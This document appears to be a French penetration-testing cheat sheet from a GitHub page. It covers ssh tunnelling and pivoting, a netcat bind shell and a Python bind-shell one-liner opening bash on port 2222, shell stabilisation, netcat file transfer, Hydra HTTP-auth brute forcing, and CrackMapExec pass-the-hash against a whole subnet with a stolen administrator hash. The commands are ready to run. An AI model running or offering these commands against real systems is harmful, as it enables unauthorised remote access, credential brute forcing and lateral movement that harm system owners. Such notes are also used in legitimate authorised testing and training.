 Accorder les permissions pour un user specifique

```
setfacl -m u:username:rwx myfolder
```
Tunnel ssh dynamique sur le port local 8080:

```
ssh -ND 8080 root@addressIP
```
Rebonds avec ssh:

```
ssh -J root@premier_rebond root@cible
```
Port forwarding avec ssh:

```
ssh -NL port_local:cible_distante:port_cible_distante root@rebond</br>
```
<h3>Obtenir un shell</h3>
Ouvrent un shell sur le port 2222 :

```
 nc -lkvp 2222 -e /bin/bash
 python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```
On se connecte avec nc -nv 2222 adress port
<h4>Pour avoir un shell pty :</h4>

```
python -c "import pty; pty.spawn('/bin/bash')"
```
<h4>Pour avoir tab completion tout joli :</h4>
Prendre un shell pty avec la commande plus haut

```
 CTRL-Z
 stty raw -echo
 fg
```

Envoi fichier avec netcat :

```
nc -l -p 1234 > out.file
nc -w 3 [destination] 1234 < out.file
```

##### Tools

#### Hydra:
http-auth bute force

```
hydra -L user.txt -P password.txt -t12 -f x.x.x.x http-get / -V
```

#### XfreeRDP:

```
xfreerdp /f +clipboard /kbd:0x0000040C /u:USERNAME@DOMAIN /p:PASSWORD /v:IP
```


#### CrackMapExec

Une fois le hash administrateur récupéré sur un poste:

```
cme smb -u Administrateur -H HASH 192.168.20.0/24 --local-auth
```
